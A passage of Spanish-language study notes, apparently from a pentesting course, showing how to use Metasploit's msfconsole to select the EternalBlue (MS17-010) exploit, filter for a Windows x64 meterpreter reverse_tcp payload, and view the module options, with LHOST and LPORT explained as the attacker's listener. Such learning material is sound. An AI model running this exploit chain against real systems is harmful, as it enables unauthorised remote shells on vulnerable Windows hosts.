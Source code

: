 ```shell-session
   534  windows/x64/meterpreter_reverse_tcp    
```

  Puedo encadenar "greps" para hacer búsquedas más precisas: 
```
grep meterpreter grep reverse_tcp show payloads
```

Por ejemplo, puedo encadenar: 
```
search eternalblue
use 0
grep meterpreter grep reverse_tcp show payloads
```
Usando el módulo eternalblue (msf exploit(windows/smb/ms17_010_eternalblue) podemos ver varios payloads diferentes que puede utilizar dicho módulo:
```
msf exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads
```
Nos devuelve la salida:
```shell-session
 15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
```

Y finalmente: 
```
set payload 15
```

Con esto, lo que estoy haciendo es:
- Elegir el payload qué se ejecutará en la víctima (p. ej. Meterpreter vs shell) y qué arquitectura (x86/x64).
- También determina cómo se conecta (reverse vs bind) y si usa cifrado/otras variantes (rc4, uuid).
- Escoge según la arquitectura del objetivo, la topología de red (NAT/firewall) y la funcionalidad/detección que necesites.

Después de seleccionar un payload, tenemos muchas otras opciones a consultar (ver código de debajo):
Como podemos ver, al ejecutar el comando "show payloads" dentro del módulo Exploit, msfconsole ha detectado que el objetivo es una máquina Windows, por lo que solo muestra las cargas útiles dirigidas a sistemas operativos Windows.

También vemos que ha aparecido un nuevo campo de opción, directamente relacionado con el contenido de los parámetros de la carga útil. Nos centraremos en LHOST y LPORT (la IP de nuestro atacante y el puerto deseado para la inicialización de la conexión inversa). Por supuesto, si el ataque falla, siempre podemos usar un puerto diferente y reiniciarlo.
```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

```